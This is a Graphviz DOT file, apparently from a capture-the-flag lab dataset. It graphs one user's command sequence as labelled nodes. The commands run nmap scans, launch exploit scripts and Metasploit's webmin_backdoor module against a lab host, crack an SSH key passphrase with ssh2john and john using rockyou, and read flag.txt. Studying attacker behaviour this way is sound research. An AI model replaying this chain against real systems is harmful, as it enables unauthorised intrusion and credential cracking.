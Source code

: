 // creating graph for user: 70
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 M0 A1 "]
	1 [label="nmap 172.18.1.5 -p 10000 V0 "]
	2 [label="J8 cd Downloads/ U"]
	3 [label="ls A10 "]
	4 [label="cd Downloads/ U"]
	5 [label="ls A10 "]
	6 [label="sh 47293.sh 172.18.1.5:10000 U"]
	7 [label="bash 47293.sh 172.18.1.5:10000 U"]
	8 [label="nano utok.sh U"]
	9 [label="sh utok.sh 172.18.1.5:10000 U"]
	10 [label="nano utok.sh U"]
	11 [label="msfconsole A2 M2 "]
	12 [label="exit U"]
	13 [label="msfconsole V2 "]
	14 [label="use unix/webapp/webmin_backdoor A4 M4 "]
	15 [label="help U"]
	16 [label="show options A5 M5 "]
	17 [label="set RHOSTS 172.18.1.5 A6 M6 "]
	18 [label="exploit A8 M8 "]
	19 [label="ip a U"]
	20 [label="set LHOST 192.168.131.85 V6 "]
	21 [label="exploit V8 "]
	22 [label="exit U"]
	23 [label="quit U"]
	24 [label="exit -y U"]
	25 [label="clear U"]
	26 [label="namp 172.18.1.1/24 U"]
	27 [label="nmap 172.18.1.1/24 A0 A1 "]
	28 [label="nmap 10.0.1.1/24 A0 A1 "]
	29 [label="nmap 10.1.0.1/24 A0 A1 "]
	30 [label="nmap 100.100.100.1/24 A0 A1 "]
	31 [label="msfconsole V2 "]
	32 [label="use unix/webapp/webmin_backdoor V4 "]
	33 [label="set LHOST 192.168.131.85 V6 "]
	34 [label="nmap 172.168.1.1/24 A0 A1 "]
	35 [label="nmap 172.18.1.1/24 A0 A1 "]
	36 [label="set RHOSTS 172.18.1.5 V6 "]
	37 [label="nmap 10.1.0.1/24 A0 A1 "]
	38 [label="exploit V8 "]
	39 [label="show options V5 "]
	40 [label="curl 172.18.1.5:10000 U"]
	41 [label="exploit V8 "]
	42 [label="clear U"]
	43 [label="nmap 10.1.17.4 A0 A1 "]
	44 [label="nano key.txt U"]
	45 [label="chmod 600 key.txt A15 M15 "]
	46 [label="ssh -i key.txt eve@10.1.17.4 A16 M16 "]
	47 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	48 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	49 [label="ls A10 "]
	50 [label="./ssh2john.py A14 A16 "]
	51 [label="./ssh2john.py key.txt A14 A16 "]
	52 [label="./ssh2john.py key.txt > sshjohn.txt A14 A16 "]
	53 [label="ls A10 "]
	54 [label="man john A14 "]
	55 [label="john --single sshjohn.txt A14 A16 "]
	56 [label="john --show sshjohn.txt A5 A14 A16 "]
	57 [label="john --single sshjohn.txt A14 A16 "]
	58 [label="john --show sshjohn.txt A5 A14 A16 "]
	59 [label="john -i sshjohn.txt V16 "]
	60 [label="john --incremental sshjohn.txt V16 "]
	61 [label="ls A10 "]
	62 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	63 [label="clear U"]
	64 [label="john --wordlist /usr/share/wordlists/rockyou.txt sshjohn.txt A14 M14 A16 "]
	65 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	66 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	67 [label="ls A10 "]
	68 [label="cd top-secret/ U"]
	69 [label="ls A10 "]
	70 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	rankdir=LR
}
